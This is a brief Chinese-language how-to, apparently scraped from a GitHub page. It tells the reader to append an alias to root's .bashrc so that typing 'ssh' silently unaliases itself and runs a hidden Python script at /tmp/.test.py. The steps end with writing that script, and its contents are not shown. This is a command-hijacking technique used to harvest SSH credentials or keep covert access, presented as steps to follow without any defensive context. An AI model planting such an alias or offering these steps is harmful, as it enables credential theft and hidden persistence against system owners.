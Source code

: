 使用：

`vim /root/.bashrc`  最后一行： `alias ssh='unalias ssh > /dev/null 2>&1;python3 /tmp/.test.py'`

执行：`source /root/.bashrc`

执行 `vim /tmp/.test.py`，写入python文件
